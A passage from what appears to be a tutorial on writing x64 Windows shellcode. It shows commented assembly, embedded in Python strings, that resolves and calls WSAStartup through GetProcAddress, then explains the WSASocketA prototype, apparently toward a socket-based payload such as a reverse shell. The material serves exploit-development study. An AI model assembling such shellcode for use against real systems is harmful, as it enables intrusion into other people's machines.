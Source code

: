 The implementation in Python code is illustrated below.

```
# Resolve WSAStartup Address
" mov rax, 0x7075;"                  # Load "up" into RAX
" push rax;"                         # Push the substring onto the stack
" mov rax, 0x7472617453415357;"      # Load "WSAStart" into RAX
" push rax;"                         # Push the complete function name onto the stack
" mov rdx, rsp; "                    # Move the stack pointer to RDX, pointing to "WSAStartup"
" mov rcx, r15; "                    # Copy the base address of WS2_32.dll from R15 to RCX
" sub rsp, 0x30; "                   # Allocate 48 bytes on the stack to maintain alignment
" call r14;"                         # Call GetProcAddress, which is stored in R14
" add rsp, 0x30; "                   # Clean up the allocated stack space
" add rsp, 0x10; "                   # Adjust stack to remove the space used by the string "WSAStartup"
" mov r12, rax; "                    # Store the address of WSAStartup in R12 for later use

# Initialize WSAStartup
" xor rcx, rcx; "                    # Clear RCX to prepare for value setting
" mov cx, 408; "                     # Set RCX to 408 (allocates 408 bytes on stack for lpWSAData)
" sub rsp, rcx; "                    # Allocate 408 bytes on the stack for lpWSAData
" lea rdx, [rsp]; "                  # Load Effective Address of the stack into RDX for lpWSAData
" mov cx, 514; "                     # Set wVersionRequested to 2.2 (0x0202 in hexadecimal)
" sub rsp, 88; "                     # Allocate additional space (88 bytes) on the stack for local variables or to maintain alignment
" call r12; "                        # Call WSAStartup using the address stored in R12
```

The function is then checked in WinDBG to see if it is loaded correctly.

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-05-05_07-09.png" alt="">

### Calling WSASocket

The next step involves calling the WSASocketA API, responsible for socket creation. Here is the [function prototype](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa){:target="_blank"}:

```cpp
SOCKET WSAAPI WSASocketA(
  [in] int                 af,
  [in] int                 type,
  [in] int                 protocol,
  [in] LPWSAPROTOCOL_INFOA lpProtocolInfo,
  [in] GROUP               g,
  [in] DWORD               dwFlags
);
```

Where:

* `af`: Specifies the address family. This determines the type of addresses that the socket can communicate with (e.g., `AF_INET` for IPv4, `AF_INET6` for IPv6). In this case, `AF_INET` will be used.
* `type`: Defines the type of socket. Common types include `SOCK_STREAM` for a TCP socket and `SOCK_DGRAM` for a UDP socket.
* `protocol`: Indicates the protocol to be used with the socket. For TCP, the protocol is `IPPROTO_TCP`, and for UDP, it is `IPPROTO_UDP`.
* `lpProtocolInfo`: A pointer to a `WSAPROTOCOL_INFOA` structure that provides additional details about the protocol, address family, and type. This parameter can be `NULL` if default settings are used.
* `g`: Specifies the group ID for the new socket. This is usually set to `NULL` unless the socket is part of a socket group.
* `dwFlags`: Socket attribute flags that can affect the behavior of the socket. Common flags include `WSA_FLAG_OVERLAPPED` for asynchronous sockets and `WSA_FLAG_NO_HANDLE_INHERIT` to prevent inheritance of the socket by child processes.
